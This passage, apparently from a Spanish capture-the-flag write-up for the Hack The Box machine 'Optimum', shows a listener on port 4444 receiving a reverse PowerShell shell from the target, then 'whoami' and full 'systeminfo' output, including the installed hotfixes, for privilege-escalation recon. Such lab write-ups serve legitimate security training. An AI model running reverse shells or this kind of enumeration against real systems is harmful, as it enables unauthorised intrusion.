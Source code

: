 ```
!!!! --- Press Enter After Connection Established --- !!!!


listening on [any] 4444 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.192.202] 49158

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

`Listamos` la `información` del `sistema`

```
PS C:\Users\kostas\Desktop> systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          30/7/2024, 10:53:53 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.251 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.685 MB
Virtual Memory: In Use:    818 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
```